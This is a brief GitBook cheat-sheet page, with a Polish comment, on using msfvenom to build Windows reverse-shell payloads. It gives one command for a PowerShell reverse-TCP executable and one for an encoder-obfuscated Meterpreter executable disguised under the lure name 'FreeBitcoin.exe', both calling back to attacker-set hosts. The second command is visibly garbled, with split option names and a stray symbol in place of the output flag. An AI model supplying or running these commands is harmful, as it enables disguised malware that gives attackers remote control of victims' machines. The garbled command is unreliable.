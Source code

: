 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# msfvenom

{% code overflow="wrap" fullWidth="true" %}
```python
msfvenom -p windows/x64/powershell_reverse_tcp lhost=10.20.10.10 -f exe -o payload.exe

#można dodać -e do obfuskacji
msfvenom -p windows/meterpreter/reverse_ tcp LHOST=10.0.2.22 LPORT=4444 -e X86/shikata_ga_ nai -f exe § FreeBitcoin.exe
```
{% endcode %}

<div data-full-width="true">

<figure><img src=".gitbook/assets/Screenshot 2023-07-25 at 16.02.14 (1).png" alt=""><figcaption></figcaption></figure>

</div>
